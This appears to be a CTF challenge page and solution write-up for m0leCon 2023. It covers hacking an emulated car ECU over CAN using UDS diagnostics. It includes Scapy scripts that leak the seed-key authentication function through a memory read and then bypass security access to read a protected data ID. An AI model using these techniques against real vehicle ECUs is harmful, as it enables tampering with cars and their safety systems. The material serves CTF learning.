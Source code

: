 # ptm vr00m vr00m

## m0leCon CTF 2023 challenge

[m0leCon CTF 2023](https://ctftime.org/event/2033) is an on-site jeopardy-style CTF organized by [pwnthem0le](https://pwnthem0le.polito.it/). The top 10 teams will be invited to the final event, which will take place in Fall 2023 at Politecnico di Torino.

### Description
Since everyone and their dog is entering the car manufacturing market, ptm has decided to jump on the train as well. We are planning a ton of innovative features to destroy the competition, but basics first! It would be really awkward if our car got hacked. Can you assert the security of our ECU? (And in particular read the `DataID 31337`, where our biggest secret lies)<br>
For this challenge you should have received an email with the instructions to connect to a vm via ssh. You can talk to the ECU using the `transmission id 0x7D0`<br>
The original flag has been substituted by `ptm{sample_flag}`

### Deploy
The challenge can be started by looking at the commands in `/src/chall/start_chall.sh`.

## Solution
The challenge emulates an ECU that communicates via CAN using the `ISOTP` and `UDS` protocols.<br>
The emulator handles 3 sessions (1, 2, and 3) and six services (`0x10, 0x11, 0x22, 0x23, 0x27, 0x3E`). All of the sessions and most of the services are needed to solve this challenge.<br>
The goal is to read the `DataID 31337` that can only be read in `session 2` after being authenticated.<br>
The authentication method follows a `seed and key` paradigm:
 1. The tester asks the ECU for a randomly generated seed
 2. The tester applies a function (known a priori by the tester and ECU) to the received seed and sends the computed key back to the ECU
 3. The ECU applies the same function on the generated seed and checks whether the computed seed and the given one are the same. In which case the tester is authenticated.

The function used by the ECU to compute the key can be leaked by doing a `read memory by address` in `session 3`. Here's a script to leak it using Scapy:

```python
from scapy.contrib.automotive.uds import UDS, UDS_RMBA, UDS_DSC
from scapy.contrib.isotp import ISOTPNativeSocket

def read_by_address(sock: ISOTPNativeSocket):
    pkt = UDS() / UDS_RMBA(memoryAddressLen=3, memorySizeLen=3, memoryAddress3=1361, memorySize3=319)
    response = sock.sr1(pkt, verbose=0)
    with open("leak", "wb") as f:
        f.write(response.dataRecord)

    

sock = ISOTPNativeSocket("vcan0", 2000, 1968, basecls=UDS, padding=True, fd=False)
sock.sr1(UDS()/UDS_DSC( diagnosticSessionType=3), verbose=0)
read_by_address(sock)
```

After reversing the function all that's left is going into `session 2`, authenticate (every time the session is changed the authorization gets revoked), and read the `DataID 31337`. Here's a script to do it:

```python
from scapy.contrib.automotive.uds import UDS, UDS_DSC, UDS_RDBI, UDS_SA
from scapy.contrib.isotp import ISOTPNativeSocket
from ctypes import *

# I was too lazy to reimplement the function in python, so I'm just using the server library
lib = CDLL("/home/pixel/CAN/Tests/lib.so")

sock = ISOTPNativeSocket("vcan0", 2000, 1968, basecls=UDS, padding=True, fd=False)

# Change to 3
sock.sr1(UDS()/UDS_DSC(diagnosticSessionType=3), verbose=0)

# Change to 2
sock.sr1(UDS()/UDS_DSC(diagnosticSessionType=2), verbose=0)

# Authenticate
pkt = sock.sr1(UDS()/UDS_SA(securityAccessType=9), verbose=0)
key = lib.seed_key(pkt.securitySeed)
if key < 0:
    key += 2**32
key = key.to_bytes(4, "big")

sock.sr1(UDS()/UDS_SA(securityAccessType=10, securityKey=key), verbose=0)

# Read data 
pkt = UDS() / UDS_RDBI(identifiers=0x7a69)
response = sock.sr1(pkt, verbose=0)
print(bytes(response)[3:].decode())
```